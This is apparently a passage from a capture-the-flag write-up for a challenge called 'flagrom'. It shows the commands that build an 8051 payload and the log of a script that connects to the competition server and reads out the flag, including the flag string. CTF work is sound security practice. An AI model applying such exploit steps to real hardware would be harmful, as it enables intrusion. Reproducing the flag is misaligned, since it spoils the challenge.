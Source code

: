 # Dumping the Flag  
Build the payload  
```  
$ make  
sdcc payload.c  
objcopy -I ihex -O binary payload.ihx payload.bin  
```

Run our script  
```  
$ python do.py  
[+] Opening connection to flagrom.ctfcompetition.com on port 1337: Done

Executing firmware...  
[FW] Writing flag to SecureEEPROM...............DONE  
[FW] Securing SecureEEPROM flag banks...........DONE  
[FW] Removing flag from 8051 memory.............DONE  
[FW] Writing welcome message to SecureEEPROM....DONE  
Executing usercode...  
[PL] Reading flag...DONE  
[PL] Flag: CTF{flagrom-and-on-and-on}

Clean exit.  
[*] Closed connection to flagrom.ctfcompetition.com port 1337  
```